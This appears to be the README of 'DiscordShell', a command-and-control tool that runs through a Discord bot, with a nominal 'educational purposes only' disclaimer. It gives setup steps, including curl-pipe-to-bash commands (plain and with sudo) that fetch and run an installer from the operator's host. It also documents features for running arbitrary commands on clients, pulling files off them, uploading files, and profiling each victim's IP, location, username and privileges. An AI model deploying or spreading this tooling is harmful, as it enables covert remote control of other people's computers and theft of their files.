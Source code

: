 # DiscordShell

C2 hosted on Discord via use of the Discord Python API. Created by [Sid Lacy](https://github.com/lacysw) and [Nathan Burns](https://github.com/AlbinoGazelle).

The files contained in this repository are intended for educational purposes only. Malicious use of code hosted within this repository is not permitted.

## Screenshots

Instant notifications on client join.
![Instant notifications on client join.](/img/clientJoin.png)

Easy access to basic client information.
![Easy access to basic host information.](/img/clientHosts.png)

Client latency information request.
![Support for executing arbitraty non-interactive commands.](/img/clientPing.png)

[!] SHELL: Support for executing any arbitraty non-interactive commands.
![SHELL: Support for executing any arbitraty non-interactive commands.](/img/clientCommand.png)

Support for uploading files to the client.
![Support for uploading files under 4MB to the client (Discord API limitations).](/img/clientUpload.png)

Support for downloading files from the client.
![Support for uploading files under 4MB to the client (Discord API limitations).](/img/clientDownload.png)

At-will client deauthorization.
![Instant notifications on client join.](/img/clientKill.png)

## Setup

### Discord

1. Follow [these instructions](https://discordpy.readthedocs.io/en/stable/discord.html).
2. Save the bot token for later use.
3. Create a C2 channel in your discord; this is where the bot will accept commands. Copy the channel ID and save it for later.
4. Copy your user ID and save it for later use.

### Host

1. Edit the variables `apitoken`, `debug`, and `allowed_users` inside `shell.py` with the information you saved earlier.
2. Run `build.sh` to yield an executable.
3. Edit the variables `$srcip` and `$srcport` inside of `install.sh` to contain the IP address and port of the server hosting the shell.
4. Host the executable (`shell`) and `installer.sh` at `$scrip:$scrport`.

### Client

 - Execute `curl -s  http://$srcip:$srcport/installer.sh | bash` for a standard connection.
 - Execute `curl -s  http://$srcip:$srcport/installer.sh | sudo bash` for a root connection.

## Supported Features & Syntax

All supported commands are prefixed with `?`.
 - `?hosts`: Request the following information for every active client:
    - IP address; click to navigate instantly to `whois.domaintools.com/${IP}`
    - Alpha-2 country code of residence
    - Estimated location coordinates; click to instantly navigate to `google.com/maps?q=${latitude},${longitude}`
    - Detected operating system
    - EUID (permissions)
    - Username and hostname
    - The service provider of the internet connection
 - `?cmd ${client_id} ${command}`: Executes a command on a specified client. Command result will be returned in a discord message.
    - Example: `?cmd abcd1234 whoami`
    - Example: `?cmd abcd1234 ls -la`
 - `?download ${client_id} ${path}`: Download specified file from client. Data will be returned in a discord message, has a limitation of 4MB in non-boosted servers.
    - Example: `?download abcd1234 file.txt`
    - Example: `?download abcd1234 /home/user/picture.png`
 - `?upload ${client_id} ${path}`: Upload a file to a specified client. Status message will be returned in a discord message, has a limitation of 4MB in non-boosted servers.
    - Example: `?upload abcd1234 resource.sql`
    - Example: `?upload abcd1234 /usr/sbin/function.sh`
 - `?kill ${client_id}`: Terminate a specified client. Status message will be returned in a discord message.
    - Example: `?kill abcd1234`


## Plans

 - Better error handling.
 - Comprehensive logging.
 - Support for larger file uploading/downloading.